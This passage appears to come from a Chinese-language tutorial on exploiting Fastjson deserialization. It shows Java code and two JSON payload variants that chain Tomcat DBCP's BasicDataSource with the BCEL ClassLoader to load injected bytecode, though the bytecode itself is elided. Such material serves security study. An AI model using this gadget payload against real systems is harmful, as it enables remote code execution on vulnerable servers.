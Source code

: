 ```java
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$"+ code+ "\"\n" +
                "        }\n" +
                "    }: \"bbb\"\n" +
                "}";
        JSON.parseObject(payload);
    }
}
```

这里的JSON有两种写法：

```java
// 这种是简写写法
{
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$XXXXXXXX......"
        }
    }: "bbb"
}

// 这种是非简写写法
{
    "@type": "com.alibaba.fastjson.JSONObject",
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$XXXXXXXX......"
        }
    }: "bbb"
}
```

`run`一下看看效果：
